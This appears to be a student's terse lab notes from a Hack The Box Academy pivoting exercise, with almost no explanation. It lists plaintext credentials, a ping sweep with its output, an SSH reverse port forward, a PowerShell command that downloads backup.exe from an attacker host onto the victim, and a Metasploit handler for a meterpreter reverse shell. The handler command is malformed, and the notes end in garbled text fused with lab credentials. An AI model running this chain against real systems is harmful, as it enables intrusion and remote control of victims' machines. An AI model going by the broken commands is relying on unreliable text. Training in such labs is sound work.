

172.16.5.19:victor:pass@123

## Section 1
1. Question 1

Find host

for i in {1..255}; do (ping -c 1 172.16.5.${i} | grep "bytes from" &); done
64 bytes from 172.16.5.19: icmp_seq=1 ttl=128 time=0.310 ms
64 bytes from 172.16.5.129: icmp_seq=1 ttl=64 time=0.017 ms

## Section 2

ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.160.193-fNv

Invoke-WebRequest -Uri "http://172.16.5.129:8123/backup.exe" -OutFile "C:\Users\victor\backup.exe"

sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https set LHOST 0.0.0.0; set 8000; exploit"

tools
internet options
security tab
truted zoneHTB_@cademy_stdnt10.129.218.108HTB_@cademy_stdnt!